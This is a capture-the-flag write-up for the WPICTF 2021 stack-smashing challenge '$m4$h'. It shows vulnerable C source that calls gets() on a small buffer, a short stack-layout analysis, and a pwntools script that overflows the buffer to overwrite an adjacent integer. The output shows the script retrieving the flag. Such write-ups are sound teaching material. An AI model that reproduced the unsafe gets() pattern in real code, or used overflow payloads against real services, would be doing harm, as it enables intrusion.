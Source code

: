 # WPICTF 2021

## $m4$h

> 100
> 
> Simple stack smashing challenge
>
> Connect on `nc smash184384.wpictf.xyz 15724`.
>
> Press enter once after connecting
>
> Author: Iv
>
> [`challenge.c`](`challenge.c`)

Tags: _pwn_ _bof_ _variable-overwite_


## Summary

Meh.


## Analysis

```c
#include <stdio.h>
#include <string.h>

void printFlagObfuscated(){
    // [REDACTED]
}

int main()
{
    int specialInt = 924053438;
    printf("Please enter a string: ");
    char buffer[11];
    gets(buffer);

    if(specialInt == 923992130){
        printFlagObfuscated();
    }else{
        printf("Input was %s. This is a very normal and boring program that prints your input.\n", buffer);
    }

    return 0;
}
```

No binary provided, no leaks, could be x86_64, could be arm, canary? PIE? ...

Not a lot to go on, hopefully the compiler put `buffer` above `specialInt` on the stack so that all we have to do is send 11 (or more, no idea how stack is aligned) junk chars before sending 923992130.

> No `setbuf`; one of those `echo | nc` things.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

p = remote('smash184384.wpictf.xyz', 15724)

payload  = b''
payload += 11 * b'A'
payload += p32(923992130)

p.sendline(payload)
p.recvuntil('string: ')
p.stream()
```

Output:

```bash
# ./exploit.py
[+] Opening connection to smash184384.wpictf.xyz on port 15724: Done
WPI{ju5t!n|$bR#4tht4k!n6}
```
